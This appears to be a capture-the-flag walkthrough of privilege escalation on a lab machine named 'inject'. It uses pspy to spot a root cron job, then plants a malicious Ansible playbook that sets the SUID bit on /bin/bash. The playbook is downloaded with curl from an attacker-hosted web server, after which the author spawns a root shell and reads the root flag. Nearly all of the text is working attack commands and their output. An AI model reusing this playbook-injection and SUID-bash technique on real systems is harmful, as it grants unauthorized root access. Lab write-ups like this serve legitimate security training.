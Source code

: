 1)  With pspy64 I see this process:
--> If we run it we see that it is eliminating this
```
2023/03/25 00:50:11 CMD: UID=0     PID=8752   | /usr/bin/rm -rf /opt/automation/tasks/playbook_1.yml 
```

--> Delete everything there and then a copy lies in the same path
```
2023/03/25 00:52:11 CMD: UID=0     PID=8870   | /bin/sh -c sleep 10 && /usr/bin/rm -rf /opt/automation/tasks/* && /usr/bin/cp /root/playbook_1.yml /opt/automation/tasks/ 
```

2) Create this in the opt/automation/tasks path:

---> In the Local Machine I create this file:
```
┌──(kali㉿kali)-[~]
└─$ cat playbook2.yml 
```yml
- hosts: localhost
  tasks:
    - name: Priv esc
      ansible.builtin.shell: |
        chmod +s /bin/bash
      become: true

```

---> I open a web server in my Local Machine:
```
┌──(kali㉿kali)-[~]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

---> With curl in the Target Machine I download the file:
```
phil@inject:/opt/automation/tasks$ curl http://10.10.15.7/pe.yml -o pe.yml
curl http://10.10.15.7/playbook2.yml -o playbook2.yml
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   126  100   126    0     0    586      0 --:--:-- --:--:-- --:--:--   600
```

3) I remove it but leave the Bash with this permission:
```
phil@inject:/tmp$ ls -l /bin/bash
ls -l /bin/bash
-rwsr-sr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

4) I spawn the root shell:
```
phil@inject:/tmp$  bash -p
 bash -p
bash-5.0# whoami
whoami
root
```

5) I get the root.txt:
```
bash-5.0# cat /root/root.txt
cat /root/root.txt
69e04a110d58c709e23d9ccb1fd5f95b
```